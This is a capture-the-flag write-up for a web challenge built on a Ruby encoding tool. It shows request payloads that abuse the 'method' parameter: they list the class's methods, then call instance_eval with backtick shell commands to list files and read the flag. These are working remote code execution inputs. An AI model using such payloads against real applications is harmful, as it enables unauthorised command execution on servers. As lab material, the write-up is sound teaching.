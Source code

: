 # Hack MEEEE

> web

Author: [whitex](https://instagram.com/najeh_halawani)

This is my custom hacking tool, very useful during CTFs 🚩!

## Writeup

The page as a form has 4 inputs:
- message
- option (commented)
- method

Here is the source code:

```html
<form action="/" method="POST">
  <textarea autofocus name="message"></textarea>
  <!-- <input type="text" name="option"/> -->
  <br>
  <select name="method">
      <option value="decode_base64">Decode base64</option>
      <option value="encode_base64">Encode base64</option>
      <option value="encode_hexadecimal">Encode hexadecimal</option>
      <option value="decode_hexadecimal">Decode hexadecimal</option>
      <option value="md5">Md5</option>
      <option value="sha1">Sha1</option>
      <option value="sha2">Sha2</option>
  </select>
  <input type="submit">
  <hr/>
  <textarea></textarea>
</form>
```

Here is a normal request payload:

```
message=test&method=encode_base64
```

And it's response:

```html
<!-- ... -->
  <textarea>dGVzdA==
</textarea>
<!-- ... -->
```

It looks like it performs the action specify by the `method` param on the `message` param.  In this case encode `test` in base 64.

Now let's try to break it!

Request payload:

```
message=test&method=foobar
```

Response:

```html
<!-- ... -->
  <textarea></textarea>
   <!-- <div class="error">undefined method `foobar' for Tool:Class</div> -->
<!-- ... -->
```

We have an error message!

After some research on the internet you can figure out that the language used is [Ruby](https://www.ruby-lang.org).

It can be code injection if the param `method` is the method name called on the `Tool` class.

Let's try it with the [methods](https://ruby-doc.org/core-2.2.0/Object.html#method-i-methods) method. It should return an array with the methods symbol defined for this class.


```
message=test&method=methods
```

```html
<!-- ... -->
  <textarea>[:decode_base64, :encode_base64, :encode_hexadecimal, :decode_hexadecimal, :md5, :sha1, :sha2, :exposed_methods, :new, :allocate, :superclass, :json_creatable?, :<=>, :include, :<=, :>=, :==, :===, :included_modules, :include?, :name, :ancestors, :instance_methods, :public_instance_methods, :protected_instance_methods, :private_instance_methods, :constants, :const_get, :const_set, :const_defined?, :class_variables, :remove_class_variable, :class_variable_get, :class_variable_set, :class_variable_defined?, :public_constant, :private_constant, :deprecate_constant, :singleton_class?, :module_exec, :class_exec, :freeze, :inspect, :const_missing, :class_eval, :method_defined?, :public_method_defined?, :prepend, :<, :>, :private_method_defined?, :protected_method_defined?, :public_class_method, :module_eval, :to_s, :private_class_method, :autoload, :autoload?, :instance_method, :public_instance_method, :to_json, :instance_of?, :kind_of?, :is_a?, :tap, :public_send, :method, :public_method, :singleton_method, :remove_instance_variable, :define_singleton_method, :instance_variable_set, :extend, :to_enum, :enum_for, :=~, :!~, :eql?, :respond_to?, :object_id, :send, :display, :nil?, :hash, :class, :singleton_class, :clone, :dup, :itself, :taint, :tainted?, :untaint, :untrust, :untrusted?, :trust, :frozen?, :methods, :singleton_methods, :protected_methods, :private_methods, :public_methods, :instance_variable_get, :instance_variables, :instance_variable_defined?, :!, :!=, :__send__, :equal?, :instance_eval, :instance_exec, :__id__]</textarea>
<!-- ... -->
```

There we have it! There is a lot of methods defined for the class `Tool`.


Let's check the private methods using [private_methods](https://ruby-doc.org/core-2.2.0/Object.html#method-i-private_methods):

```
message=test&method=private_methods
```

```html
<!-- ... -->
  <textarea>[:initialize, :inherited, :using, :attr, :attr_reader, :attr_writer, :attr_accessor, :remove_const, :remove_method, :method_added, :method_removed, :protected, :method_undefined, :undef_method, :public, :private, :initialize_copy, :initialize_clone, :alias_method, :included, :extended, :prepended, :define_method, :DelegateClass, :humanize, :Digest, :sprintf, :format, :Integer, :Float, :String, :Array, :Hash, :fail, :iterator?, :__method__, :catch, :__dir__, :loop, :global_variables, :throw, :block_given?, :raise, :__callee__, :eval, :URI, :j, :Rational, :trace_var, :untrace_var, :at_exit, :Complex, :set_trace_func, :gem, :select, :caller, :caller_locations, :`, :test, :fork, :exit, :JSON, :sleep, :jj, :respond_to_missing?, :load, :gem_original_require, :exec, :exit!, :syscall, :open, :printf, :print, :putc, :puts, :gets, :readlines, :readline, :initialize_dup, :p, :spawn, :rand, :srand, :proc, :lambda, :abort, :system, :trap, :require, :require_relative, :binding, :local_variables, :warn, :method_missing, :singleton_method_added, :singleton_method_removed, :singleton_method_undefined]</textarea>
<!-- ... -->  
```

Nice, the method [\`](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-60) is defined.

> `cmd` → string
> Returns the standard output of running cmd in a subshell. The built-in syntax %x{...} uses this method. Sets $? to the process status.

We could use the method [instance_variables](https://ruby-doc.org/core-2.2.0/Object.html#method-i-instance_variables) to execute private method. This way we could use the [\`](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-60) method and execute code on the serveur.

> instance_eval(string [, filename [, lineno]] ) → obj
> Evaluates a string containing Ruby source code, or the given block, within the context of the receiver (obj). In order to set the context, the variable self is set to obj while the code is executing, giving the code access to obj's instance variables and private methods.

Let's try to list the current directory:

```
message=`ls`&method=instance_eval
```

```html
<!-- ... -->
  <textarea>Gemfile
Gemfile.lock
app.rb
flag.txt
tool.rb
</textarea>
<!-- ... -->
```

Let's read the `flag.txt` file:

```
message=`cat flag.txt`&method=instance_eval
```

```html
<!-- ... -->
  <textarea>CFI{send_is_a_very_dangerous_method}</textarea>
<!-- ... -->  
```  

Got the flag 🎉!
